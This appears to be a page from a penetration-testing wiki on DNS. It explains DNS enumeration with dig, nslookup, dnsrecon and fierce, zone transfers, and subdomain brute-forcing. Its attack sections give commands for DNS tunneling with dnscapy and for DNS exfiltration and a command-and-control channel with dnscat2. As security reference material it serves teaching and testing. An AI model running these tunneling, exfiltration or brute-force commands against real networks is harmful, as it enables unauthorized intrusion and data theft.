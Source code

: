 ```yaml
---
authors: ShutdownRepo, Tednoob17
---
```


# 🛠️ DNS

## Theory
DNS lets users connect to websites using domain names instead of IP addresses. The Domain Name System (DNS) is the phonebook of the Internet.
Humans access information online through domain names, like thehacker.recipes. Web browsers interact through Internet Protocol (IP) addresses.
DNS translates domain names to IP addresses so browsers can load Internet resources.

The default port of DNS is 53.

## Enumeration
### Automation

:::tabs

=== dig
The dig command is a powerful network tool for querying (DNS) servers.
It helps diagnose and resolve DNS-related problems, essential for maintaining network stability and performance.

```bash
# Dns Query
dig thehacker.recipes

# Querying a dns record type (A record for ip address)
dig  thehacker.recipes A

# Querying a name server record list
dig  thehacker.recipes NS

# Tracing the DNS path
dig thehacker.recipes  +trace
```
=== nslookup
Displays information that you can use to diagnose (DNS) infrastructure.

```bash
# Operate a DNS Query
nslookup thehacker.recipes

# Query a mail DNS record (MX record)
nslookup -type=MX thehacker.recipes

# Query a specific DNS server
nslookup thehacker.recipes $DNS_IP
```

=== host

host is a simple utility for performing Domain Name System lookups.

```bash
# Simple DNS Query
host thehacker.recipes

# Query a mail DNS record (MX record)
host -t MX thehacker.recipes

# Perform a reverse DNS lookup
host $IP_ADDRESS
```

=== whois

```bash
# Simple DNS Query
whois thehacker.recipes
```
:::

### Any Record Query

```bash
dig any thehacker.recipes @$IP_ADDR
```

### Zone Transfer
DNS zone transfers using the AXFR protocol are the simplest mechanism to replicate DNS records across DNS servers.

```bash
# With ip address
dig axfr @$DNS_IP

# With guessing the domain
dig axfr @$DNS_IP $DOMAIN

# Alternatively, you can use fierce for zone transfers or dictionary attacks
# DNS reconnaissance and subdomain enumeration tool with recursive search and wildcard detection.
fierce --domain $DOMAIN --dns-servers $DNS_IP
```

### Enumerate Hosts and Subdomains Brute Force
DNSRecon is a Python script for comprehensive DNS enumeration, including zone transfers, record lookups, brute-forcing, wildcard checks, TLD expansion, and cached record analysis.

```bash
# To enumerate subdomains of microsoft.com
dnsrecon -d microsoft.com

# Scan a domain, use a dictionary to brute force hostnames, do a standard scan, and save the output to a file
dnsrecon -d example.com -D $WORDLIST -t std --xml $OUTPUT.xml
```

### Google dorks
```dork
site:thehacker.recipes
```

## Attack

### DNS Tunneling
DNS tunneling is commonly used to circumvent security. Tunneling can be used for benign reasons. For example, an anti-virus update done by endpoint software.
However, it is also used for more malicious purposes, such as evading captive portals.

#### Setup using dnscapy

```bash
# On the server
sudo python dnscapy_server.py $DELEGATED_ZONE_NAME $EXTERNAL_IP_ADDR

# On the client
ssh -o ProxyCommand="sudo python dnscapy_client.py $DELEGATED_ZONE_NAME $IP_ADDR_OF_CLIENT_DNS" yourlogin@localhost
```
## Post-Exploitation


### DNS Exfiltration
DNS exfiltration is a technique where attackers encode data in DNS queries to steal information.

Exfiltration with dnscat2

This tool is designed to create an encrypted command-and-control (C&C) channel over the DNS protocol, which is an effective tunnel out of almost every network.

```bash
# Server side
dnscat2 --dns server=$DNS_SERVER_IP:53

# Client side
dnscat2 $DOMAIN
```
### Cache Snooping

DNS cache snooping is a technique that can be employed for different purposes by those seeking to benefit from knowledge of what queries have been made of a recursive DNS server by its clients.

```bash
dig @$DNS-SERVER $DOMAIN +norecurse
```









## Resources
[Information Gathering-Web Edition](https://academy.hackthebox.com/module/144/section/1251)  
[Kali dnsrecon](https://www.kali.org/tools/dnsrecon)  
[DNS Attack](https://bluecatnetworks.com/blog/four-major-dns-attack-types-and-how-to-mitigate-them)  
[DNS Tunelling](https://www.blackhat.com/presentations/bh-usa-08/Miller/BH_US_08_Ty_Miller_Reverse_DNS_Tunneling_Shellcode.pdf)  
